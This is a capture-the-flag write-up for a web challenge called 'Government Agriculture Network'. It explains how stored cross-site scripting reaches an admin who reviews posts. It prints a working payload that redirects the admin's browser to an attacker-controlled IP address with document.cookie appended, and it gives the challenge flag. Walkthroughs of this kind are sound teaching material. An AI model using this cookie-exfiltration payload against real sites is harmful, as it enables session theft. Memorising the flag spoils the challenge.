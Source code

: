 # Government Agriculture Network (web)

## Prompt

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Files

* `xss.txt`: XSS exploit used to get flag.
* `flag.txt`: solution to this challenge.

## Steps

Heading to  `https://govagriculture.web.ctfcompetition.com/` shows us this lovely little site:

![Agriculture](images/agriculture.png "Img")

Anytime you see a user input field on a web application in a CTF, there's a good chance that there will be some sort of injection or XSS attack. XSS stands for Cross-Site Scripting and is used to get other visitors of a page to run code that you place on the site. `<script>alert(1)</script>` is the classic test case for XSS, but there are a number of more advanced examples out there in the wild.

What makes this page non-trivial in terms of XSS is that everytime content is submitted, this message is issued:

![Admin](images/admin.png "Img")  

What's interesting about this is that presumably an admin of some sort will look at the content and decide if it's appropriate to be posted. We may not be able to get any visiting user to run our code, but we may be able to get the admin to run it when the admin reviews our post. 

I was very surprised that a beginner's quest would require this, but a publicly facing web server does seem to be required to solve this challenge. The idea is that an administrator on a site will have a cookie that allows privileged access to the site without requiring a login for every single request. If this cookie is used in a request to a malicious site it can be stolen.

There are multiple approaches to setting up a public facing web server/listener and there are a ton of articles on how to do that so I won't go into it. Once you have a listener set up where you can observe requests, a specially crafted XSS string can be sent to the admin.

```
<script type="text/javascript">document.location='http://1.2.3.4:8080?c='+document.cookie;</script>
```

Once the admin opens this, the browser will attempt to fetch a document from our server using the cookie as an argument. Replace `1.2.3.4:8000` with your IP/hostname and port, then click submit! On your server you should see a request that contains the flag!

```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```
